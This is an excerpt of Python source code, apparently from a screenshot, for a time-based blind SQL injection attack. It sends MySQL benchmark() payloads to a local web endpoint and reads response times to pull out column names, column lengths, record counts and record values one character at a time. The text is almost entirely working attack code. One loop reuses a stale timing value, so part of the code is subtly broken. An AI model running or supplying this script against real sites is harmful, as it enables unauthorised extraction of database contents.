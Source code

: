 ```python
    url2 = 'http://127.0.0.1/?id= 1 and if((substr((select column_name from information_schema.columns where table_name=\'' + table + '\' limit '
    url3 = 'http://127.0.0.1/?id= 1 and if(((select length(column_name) from information_schema.columns where table_name=\'' + table + '\' limit '
    url4 = 'http://127.0.0.1/?id= 1 and if(((substr((select '
    url5 = 'http://127.0.0.1/?id= 1 and if(((select count('
    url7 = 'http://127.0.0.1/?id= 1 and if(((select length('
    for i in range(50):                                               #获取字段数量
        url = url1 + str(i) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        r = requests.get(url)
        print(url)
        time = r.elapsed.total_seconds()
        print(time)
        if time > 1.5:
            extend = i
            length2 = i
            break
    for k in range(extend):                                 
        st = ''
        extend1 = 0
        for m in range(100):
            url = url3 + str(k) + ',1)=' + str(m) + '),benchmark(1000000,md5(\'test\')),NULL); %23'       #获取字段长度
            r = requests.get(url)
            if time > 1.5:
                extend1 = m
                break
        for i in range(1,extend1+1):         #获取字段
            for payload in payloads:
                url = url2 + str(k) + ',1),' + str(i) + ',1)=\'' + payload + '\'),benchmark(1000000,md5(\'test\')),NULL); %23'
                r = requests.get(url)
                time = r.elapsed.total_seconds()
                if time > 1.5:
                    print(url)
                    st += payload
                    break
        list.append(st)
        num1.append(st)
    length = 0
    for i in range(1,10000):                 #获取记录数量
        url = url5 + str(num1[0]) + ') from ' + table + ')=' + str(i) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        print(url)
        r = requests.get(url)
        time = r.elapsed.total_seconds()
        if time > 1.5:
            length = i
            break
    for column in list:
        str1 = ''
        for i in range(length):               
            length1 = 0
            url6 = url4 + str(column) + ' from ' + table + ' limit ' + str(i)
            for k in range(100):                  #获取记录长度
                url = url7 + str(column) + ') from '+ table + ' limit ' + str(i) + ',1)=' + str(k) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
                r = requests.get(url)
                time = r.elapsed.total_seconds()
                if time > 1.5:
                    print(url)
                    length1 = k
                    break
```